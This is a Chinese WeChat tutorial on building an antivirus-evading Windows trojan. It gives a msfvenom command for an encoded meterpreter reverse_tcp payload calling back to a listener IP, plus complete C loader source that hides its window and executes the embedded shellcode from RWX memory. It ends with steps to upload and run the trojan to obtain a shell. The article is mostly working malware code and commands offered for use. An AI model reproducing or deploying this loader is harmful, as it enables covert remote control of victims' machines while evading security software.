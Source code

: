 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/dVYgFxSbn0QZRe-fDpDp6Q)

知道为什么梦里的人都看不清脸么？因为怕你当真。。。

----  网易云热评

 ![](http://wx.qlogo.cn/finderhead/PiajxSqBRaEJ7Ik2tcpu1fLbiceIMq8ALz06e9g1ENj06MEeFBG1snVQ/0) **之乎者也吧** #2021Kali 系列 #免杀 @微信时刻 @微信创作者 视频号

一、通过 MSF 生成 shellcode  

1、启动 MSF，演示版本是 6.0.36

![](https://mmbiz.qpic.cn/mmbiz_png/8H1dCzib3UibvvtmWJD5PKUmtYzjb0Y63kXvkrLNXMkicbia92Ld1dXFgVSz9y1YyaQB02tqasGs43aiapzqzIhhP3Q/640?wx_fmt=png)

2、通过 msfvenom 生成相关代码

```
msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 12 -b '\x00' lhost=192.168.139.133 lport=8585 -f c
```

-p：指定 payload

-e：指定选择使用的编码

-i：给 payload 编码的次数

-b：避免出现的字符

-f：输出文件类型

二、通过 VS2019 编译免杀木马

1、启动 VS2019 新建控制台应用程序

![](https://mmbiz.qpic.cn/mmbiz_png/8H1dCzib3UibvvtmWJD5PKUmtYzjb0Y63kOjnDxwfzviaoibxgerorvUwDHLj6bugunNcuaftVJkY3gxofAmm33yfw/640?wx_fmt=png)

2、一路下一步，最后将主函数代码替换成下面的代码

```
#include<stdio.h>
#include<windows.h>
#include <time.h>
int main(int argc, char const* argv[])
{
       ShowWindow(GetConsoleWindow(), SW_HIDE);
       unsigned char buf[] =  "\xbf\xc2\xd4\x1d\x34\xd9\xc9\xd9\x74\x24\xf4\x58\x31\xc9\xb1"
"\xa3\x31\x78\x15\x03\x78\x15\x83\xe8\xfc\xe2\x37\x6a\x4e\xf4"
"\xfe\x20\xa8\x3f\xd9\x33\x6f\x34\x86\x88\xa6\x05\xa5\xde\x4f"
"\x74\x56\xcf\x4c\x7b\x7c\xde\x06\x3a\x6f\xdf\xaa\x1e\x08\xb5"
"\x15\x96\x18\x69\x5c\x22\x14\x76\x4d\x5a\x55\x46\x84\x4c\xf6"
"\x5c\xbe\x11\x6f\xce\x02\xa7\xd4\xc0\xc5\xcc\xb8\x72\x3c\xe3"
"\x45\x50\x2a\x3a\x10\x64\x23\xb4\x8a\xae\x53\x8f\x59\xe4\xec"
"\xed\x4d\x59\x44\x4a\x1b\x64\x03\x94\xfd\x7b\xb2\x45\x76\x80"
"\x1d\x95\x02\x81\x32\xed\x5f\x14\x10\x1c\x08\x1f\x3c\xb3\x4b"
"\x79\xfe\x0c\xa1\x52\xea\x56\xcb\xae\x44\x09\x9a\x7b\xc2\x30"
"\x25\x7e\x8e\x31\x88\xcc\xf8\x8c\x71\xe5\xde\x79\xbc\x77\x40"
"\x82\x97\xea\x9a\x36\xe6\xc4\xab\xd7\xc0\xb2\xc6\xa7\x79\xa0"
"\x9c\x9a\x07\x70\x9b\xe6\x81\x53\x6d\xe5\x4c\xe7\x46\x28\xdb"
"\x61\x0f\x51\x8e\xca\xcb\x40\xdf\x68\xf7\x73\x2d\xe4\xf0\xea"
"\xe1\x83\x95\x97\x91\xd2\x46\x51\x8c\xcb\x15\x2a\xb2\xc0\xe6"
"\x78\x9d\xfd\x3e\x2c\xeb\x6c\xbc\x40\x05\x5b\x2b\x16\x48\x1b"
"\x01\x09\x38\xdf\xd8\xec\x23\x94\x60\x76\x73\x48\x48\xe9\xe1"
"\xf4\x5e\x8d\xbf\x95\x46\xae\x66\xc8\x37\x0d\x43\x02\xbd\x4d"
"\x66\x82\x9d\xf9\x46\xc1\x03\x22\x73\x14\xcd\x0a\x12\x83\xf9"
"\x54\x04\x7e\x6d\x71\xd7\x8c\x0c\x99\x81\x88\x2d\x62\xcd\xf0"
"\x6e\x3c\x1c\xa8\x07\xa0\x9d\x43\x5e\xb3\x6b\x2f\x9f\xc3\x66"
"\x3f\xad\xc3\x99\xde\x83\x22\x7e\x84\x85\x4a\x9c\x41\x85\xb6"
"\xbd\x04\x39\x7d\xde\x4f\x8d\x86\xfc\x95\xb9\x22\xf1\x63\xfb"
"\x6c\x59\x2e\x7c\x95\xdf\x1f\x45\x88\x2a\x2f\x7a\x9c\xf1\x75"
"\xff\x90\x6e\x90\x20\x1e\x6f\x4e\x52\x7d\x1d\xab\x47\x15\x94"
"\x7e\xf0\x7c\x56\x21\xb4\xdd\xf0\x0b\xdc\x22\x43\x91\x08\x21"
"\x89\x63\xdc\x54\xc3\xc4\x10\x9d\x9c\xdc\x76\xae\xb4\xf3\x33"
"\xbd\x57\xb0\xf2\xf9\xbf\xfb\xae\x0d\x8e\x33\x5f\xc4\xdf\xa1"
"\x74\xd3\xe8\xdf\xbf\xfd\xff\x3c\x1b\x63\x60\x06\x32\xba\x42"
"\x2c\xd5\x13\xd5\x2a\x93\x5a\x77\xc4\xf0\x70\xb1\x6e\x41\xd0"
"\x55\x02\xd2\x57\x5e\xf9\x08\x65\xbc\xff\x19\xf7\x45\x9f\x6d"
"\x6a\x17\x7f\xb1\xae\x8e\xb9\x26\xe0\x28\x0e\xe2\x53\x1a\x0d"
"\xf8\xc7\xea\xa7\x3e\x5a\xbd\xc9\x30\xf3\x7e\x58\xbc\xe9\x68"
"\x4d\xb3\x78\xce\x69\x45\x53\x85\xc0\xba\x2a\x9f\x01\xe9\xba"
"\x43\xee\x8b\x20\x0b\x86\x48\x28\x2c\x72\x64\xfc\x84\x7d\xd6"
"\xa2\xe5\x73\x56\x7b\x61\xbf\xb8\x30\x23\xb7\x90\x66\x4e\xf6"
"\xdf\xde\xd4\xd9\x12\xb6\x97\x39\x3e\xed\x1f\xdc\x04\x7e\x81"
"\x41\x48\xd1\x91\x20\x02\x69\xff\x33\xdb\x87\x7a\xf0\x9c\xa5"
"\xb2\x3a\x2e\x6b\x4e\xd0\xe1\x76\x24\xbc\xf5\xc8\x26\xf1\x94"
"\x89\x1d\x2f\xc0\x80\x01\x07\x49\xef\xb2\xb0\x79\x6f\x90\x5a"
"\x66\x44\xd5\x48\x13\x19\x6e\xa7\xf0\x34\x3f\x93\xe2\x32\x83"
"\x84\xfe\x3a\x26\x6d\x59\x6b\xe5\x9c\x78\x72\x97\x01\xeb\x90"
"\x2f\x92\x2f\x83\x96\x52\x93\x5f\xd4\x89\xab\x32\xf9\x29\x2f"
"\xa6\xe2\x1c\x94\xf0\xdc\xa9\x5c\x88\x78\xde\xca\x7f\x3a\xbf"
"\xac\xc1\xf3\x7f\x38\xba\xf7\xd0\xd5\x1e\x8e\xa7\xfc\x99\xec"
"\x12\x83\xc2";
       void* exec = VirtualAlloc(0, sizeof buf, MEM_COMMIT,  PAGE_EXECUTE_READWRITE);
       memcpy(exec, buf, sizeof buf);
       ((void(*)())exec)();
       
       return 0;
}
```

3、生成解决方案  

![](https://mmbiz.qpic.cn/mmbiz_png/8H1dCzib3UibvvtmWJD5PKUmtYzjb0Y63kDM01oPtFQEB2yentWRkJ4LxRCabdWiap5ooARG57wrvt9WLiaCk9aQUg/640?wx_fmt=png)

4、右击生成的木马，使用 36X 扫描

三、实战操作

1、上传生成的木马到服务器，假设就是本地服务器

2、打开 msf，选择合适的攻击模块，run 运行

3、在服务器运行免杀木马，成功获取 shell

![](https://mmbiz.qpic.cn/mmbiz_png/8H1dCzib3UibvvtmWJD5PKUmtYzjb0Y63kpct81ickfoLxKcPbMfcD3zW86k4H0b7ibPnTChpbtg8eOc1xLKXB7t8A/640?wx_fmt=png)

禁止非法，后果自负

欢迎关注公众号：web 安全工具库

欢迎关注视频号：之乎者也吧

![](https://mmbiz.qpic.cn/mmbiz_jpg/8H1dCzib3UibvvtmWJD5PKUmtYzjb0Y63k1NlPNoia5EbpVxlurFQXjA2Y93WYYLI8Q6wcKaPwlPqZK2qh64K79Fw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/8H1dCzib3UibvvtmWJD5PKUmtYzjb0Y63kic6PwKrhz1BO4m58dYNpnmZic0Wy45l8eMHG4ed1Yibl6GDLJPk833M6w/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/8H1dCzib3UibvvtmWJD5PKUmtYzjb0Y63k6ZtjwQib2BVn9eLC5y2qL56Of1W3licMpWYDr3EyVgPFzm0vv2A4awAA/640?wx_fmt=jpeg)